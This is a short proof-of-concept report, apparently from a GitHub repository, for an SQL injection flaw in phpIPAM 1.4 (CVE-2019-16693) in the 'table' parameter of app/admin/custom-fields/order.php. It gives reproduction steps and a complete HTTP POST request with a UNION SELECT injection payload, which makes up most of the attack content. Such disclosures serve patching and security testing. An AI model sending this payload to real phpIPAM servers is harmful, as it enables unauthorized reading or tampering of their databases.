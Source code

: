 # Vulnerability Type

SQL Injection

# Description

phpIPAM 1.4 allows SQL injection via the app/admin/custom-fields/order.php table parameter when action=add is used.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.4
 - Tested on: Windows 10

 ## Exploit Description

The `table` parameter is vulnerable to SQL injection due to insufficient filtering, and exploitation requires satisfying multiple path constraints within the application flow.

 ## Steps to Reproduce

 1. Login as an admin user.
 1. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
 1. Observe the result: 

![image](assets/CVE-2019-16693.png)

 ## Proof Of Concept
```
# Ensure you have a valid user session before executing the PoC.

POST /app/admin/custom-fields/order.php HTTP/1.1
Host: phpipam
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<valid_session_id>

table=test_table%60+UNION+SELECT+1%2C2%2C3+--+&current=non-empty&next=non-empty&action=add
```

